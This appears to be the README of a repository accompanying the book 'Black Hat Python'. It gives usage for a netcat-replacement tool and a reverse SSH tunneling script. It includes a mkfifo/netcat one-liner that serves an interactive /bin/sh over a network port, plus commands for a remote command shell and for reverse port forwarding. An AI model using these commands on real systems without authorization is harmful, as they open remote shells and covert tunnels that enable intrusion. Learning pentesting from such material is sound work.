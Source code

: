 # bhp
Black Hat Python: Python Programming for Hackers and Pentesters

## BHP Net Tool
Replace netcat command with BHP Net Tool.

### Execute shell command
* netcat command

	server side:

		$ mkfifo /tmp/f
		$ cat /tmp/f | /bin/sh -i 2>&1 | nc -l 127.0.0.1 5555 > /tmp/f

	client side:

		$ nc 127.0.0.1 5555

* BHP Net Tool.

	server side:

		$ python bhnet.py -t 127.0.0.1 -p 5555 -l -c

	client side:

		$ python bhnet.py -t 127.0.0.1 -p 5555
		Ctrl-D
		<BHP:#> ls -al

## Reverse SSH tunneling
Execute following command on your machine.

	$ python rforward.py sshserver:22 -p 5555 -r httpserver:80 --user username

Then your machine becomes sshclient and establish *reverse ssh tunneling* to sshserver:22.
sshserver listen 5555 port.
If httpclient connects to the sshserver:5555, the packet is forwarded to httpserver:80.

`httpserver` <---*tcp*---> `sshclient` <---*reverse ssh tunneling*---> `sshserver` <---*tcp*---> `httpclient`

The following ssh command is equivalent to the above.

	$ ssh -R 5555:httpserver:80 -p 22 username@sshserver
